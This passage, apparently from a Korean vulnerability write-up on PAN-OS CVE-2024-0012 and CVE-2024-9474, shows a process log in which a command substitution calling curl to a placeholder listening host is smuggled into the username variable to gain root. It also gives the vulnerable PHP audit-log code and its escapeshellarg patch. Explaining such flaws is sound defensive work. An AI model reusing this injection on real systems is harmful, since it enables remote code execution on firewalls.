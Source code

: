 공격에 성공할 경우 시스템 상에서는 아래와 커맨드 명령을 통해 `관리자 권한으로 상승`하여 RCE 등을 수행할 수 있습니다.

```
CMD: UID=0     PID=87502  | sh -c export panusername="`curl {{listening-host}}`";export superuser="1";export isxml="yes";/usr/local/bin/sdb -e -n ha.app.local.state
```

취약점이 발생하는 코드는 `escapeshellarg` 함수로 $username 변수의 값을 이스케이프 처리 하는 방식으로 패치했습니다.


```
  1 <?php
  2
  3 namespace panui_core\log;
  4
  5 use pan_core\InjectableClass;
  6 use pan_process\Process;
  7 use pan_process\ShellSanitizer;
  8
  9 class AuditLog extends InjectableClass
 10 {
 11   public function write($username, $message) {
 13     $s = $this->ioc->get(ShellSanitizer::class);
 14     $msg = $s->escapeshellarg($message);
 17     $p = $this->ioc->get(Process::class);
 18 -     return $p->pexecute("/usr/local/bin/pan_elog -u audit -m $msg -o $username");
          /* 패치 코드 */
 19 +    $u = $s->escapeshellarg($username);
 20 +    return $p->pexecute("/usr/local/bin/pan_elog -u audit -m $msg -o $u");
 21   }
 22 }
```

## Reference

- https://security.paloaltonetworks.com/CVE-2024-0012
- https://security.paloaltonetworks.com/CVE-2024-9474
- https://github.com/Sachinart/CVE-2024-0012-POC/blob/main/cve-2024-0012-pan-os-poc.py




